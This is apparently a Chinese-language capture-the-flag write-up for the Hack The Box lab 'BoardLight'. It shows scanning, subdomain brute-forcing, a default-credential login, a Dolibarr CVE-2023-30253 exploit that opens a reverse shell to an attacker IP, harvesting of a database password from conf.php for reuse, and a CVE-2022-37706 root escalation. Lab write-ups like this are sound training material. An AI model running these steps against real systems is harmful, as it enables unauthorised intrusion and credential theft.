



# 扫描服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.11   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-02 04:36 EDT
Nmap scan report for 10.10.11.11
Host is up (0.49s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 062d3b851059ff7366277f0eae03eaf4 (RSA)
|   256 5903dc52873a359934447433783135fb (ECDSA)
|_  256 ab1338e43ee024b46938a9638238ddf4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/2%OT=22%CT=1%CU=41319%PV=Y%DS=2%DC=T%G=Y%TM=6683BC73
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11N
OS:W7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R
OS:=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   489.14 ms 10.10.16.1
2   245.24 ms 10.10.11.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.63 seconds

```


在web页面发现一个域名，加域名
```
echo "10.10.11.11 board.htb" >> /etc/hosts
```


域名爆破
```
┌──(root㉿kali)-[~/htb/BoardLight]
└─# gobuster vhost -u board.htb -w /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]

```

得到一个子域，添加进host
```
echo "10.10.11.11 crm.board.htb" >> /etc/hosts
```

打开页面，暴露出cms和版本号


尝试用```admin:admin```登录，登录成功：


使用[CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

执行
```
python3 exploit.py http://crm.board.htb admin admin 10.10.16.25 9001
```

拿到shell



找到一个密码:```serverfun2$2023!!```
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls
ls
conf.php  conf.php.example  conf.php.old
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings

```

是larissa的用户密码
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!

larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ whoami
whoami
larissa
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ 

```

拿到flag
```
larissa@boardlight:~$ ls
ls
10.10.14.52:8000  Documents  Music     Public     user.txt
Desktop           Downloads  Pictures  Templates  Videos
larissa@boardlight:~$ cat user.txt
cat user.txt
91b69620882626f23c80d10f2a81df61
larissa@boardlight:~$ 

```


# 提权

留意几个Unknown SUID binary

```
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                    
                      ╚════════════════════════════════════╝                                                                                                                          
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                      
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                                                             
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 467K Jan  2 09:13 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 44K Feb  6 04:49 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 55K Apr  9 08:34 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 67K Apr  9 08:34 /usr/bin/su
-rwsr-xr-x 1 root root 84K Feb  6 04:49 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Apr  9 08:34 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 87K Feb  6 04:49 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 67K Feb  6 04:49 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Feb  6 04:49 /usr/bin/chsh
-rwsr-xr-x 1 root root 15K Oct 27  2023 /usr/bin/vmware-user-suid-wrapper

```

使用[CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)

```
larissa@boardlight:~$ vi exploit.sh
larissa@boardlight:~$ chmod +x exploit.sh 
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# cat /root/root.txt
5e4249e6f15c19920f638bfaab7c29b9
# 

```